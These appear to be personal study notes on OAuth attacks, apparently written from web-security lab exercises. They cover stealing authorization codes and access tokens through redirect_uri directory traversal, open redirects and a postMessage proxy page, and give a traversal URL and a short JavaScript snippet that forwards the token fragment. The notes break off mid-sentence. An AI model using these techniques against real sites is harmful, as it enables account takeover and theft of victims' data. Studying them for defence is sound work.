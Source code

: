 ### Stealing Codes and Access Token via a Proxy Page

- Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`.
- try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.
- Try to find ways that you can successfully access different subdomains or paths or use `Directory traversal` tricks to supply any arbitrary path on the domain.

```
<https://client-app.com/oauth/callback/../../example/path>

```

- once we have identified which other pages are able to set as `redirect URI` we audit them for additional vulnerabilities that you can leak the code.
- For the `authorization code flow`, you need to find a vulnerability that gives you access to the query parameters.
- for the `implicit grant type`, you need to extract the URL fragment.
- one of the most usefull vulnerability for this purpose is an `Open Redirect`, we can use this as proxy to forward victims along with their code to attacker controlled domain.

`NOTE that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.`

### Stealing OAuth Token via an open Redirect.

- see the authorization request's `redirect_uri` parameter we cant change it to exploit server but we can check `Directory traversal vuln` and check `/../`
- this is vulnerable to directory traversal
- and we find any web request that point to another url or directory
- `/post/next?path=(here we put our exploit server uri)` and it redirects us to exploit server with OAuth Token.
- we make an script that execute so we get their token in the access log of our server

```
<script>
window.location='/?'+document.location.hash.substr(1)
</script>

```

- some application make another request with authorization header to retrieve the information so we attach victim authorization code with this request and we got victims info including API keys.

### Stealing OAuth access token via a Proxy page

- since we dint able to make redirect_uri to make external call
- we analyse the application and find any other vulnerability we can take advantage of that.
- here we have vulnerable in comment section that `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (``).
- final csrf link is
